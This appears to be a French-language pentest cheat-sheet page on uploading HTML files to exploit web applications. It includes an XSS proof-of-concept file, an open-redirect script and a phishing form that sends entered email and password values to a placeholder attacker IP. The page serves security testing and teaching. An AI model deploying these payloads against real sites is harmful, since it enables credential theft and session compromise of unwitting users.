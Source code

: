 # HTML

![](logo_html5.png)

**Facteur de risque** : XSS, HTML Injection

**Extension** : `.html`, `.htm`

**Type MIME** : `text/html`

**Description** : Le **H**yper**T**ext **M**arkup **L**anguage (**HTML** ou **HTML5**) est un langage de balisage conçu pour représenter les pages web.

## Sommaire

- Cross-site scripting (XSS)

## Cross-site scripting (XSS)

### Pré-requis

- Le fichier doit être accessible après avoir été uploadé

### Attaque

Le code HTML suivant fait apparaître un pop up :

**xss.html**, **xss.htm**

```html
<!DOCTYPE html>
<html>
<body>

<h1>Stored XSS</h1>

<script>alert(1)</script>

</body>
</html>
```

## HTML Injection

### Pré-requis

- Le fichier doit être accessible après avoir été uploadé

### Attaque

Dans certaines contextes, le payload XSS peut être refusé. Mais l'injection de code HTML est toujours possible.
Pourvoir exécuter de l'HTML permet à un attaqueur d'effectuer du **phishing**, contourner le CSP (**CSP bypass**) etc.

Un exemple pour le phishing :

**html\_phishing.html**, **html\_phishing.htm**

```html
<!DOCTYPE html>
<html>
<body>
    <style>
        h1 {color: green}
    </style>
    <h1>HTML Injection : Phishing</h1>
    <b>Entrez vos identifiants :</b>
    <form action="http://xxx.xxx.xxx.xxx:1234" method="GET">
         <input type="text" name="email" placeholder="Email"/>
        <input type="password" name="password" placeholder="Mot de passe"/>
        <input type="submit" value="Submit"/>
    </form>
</body>
</html>
```

## Open Redirect

### Pré-requis

- Le fichier doit être accessible après avoir été uploadé

### Attaque

Le code suivant permet une redirection sur google.com :

**openredirect.html**, **openredirect.htm**

```html
<!DOCTYPE html>
<html>
<body>
<script>
    window.location = "https://www.google.com/";
</script>
</body>
</html>
```

## References

[PayloadsAllTheThings/xss.htm at master · swisskyrepo/PayloadsAllTheThings · GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/Files/xss.htm)

[PayloadsAllTheThings/xss.html at master · swisskyrepo/PayloadsAllTheThings · GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20HTML/xss.html)

[What Are HTML Injections | Acunetix](https://www.acunetix.com/blog/web-security-zone/html-injections/)

## Todo

Crée des fichiers JavaScript ?
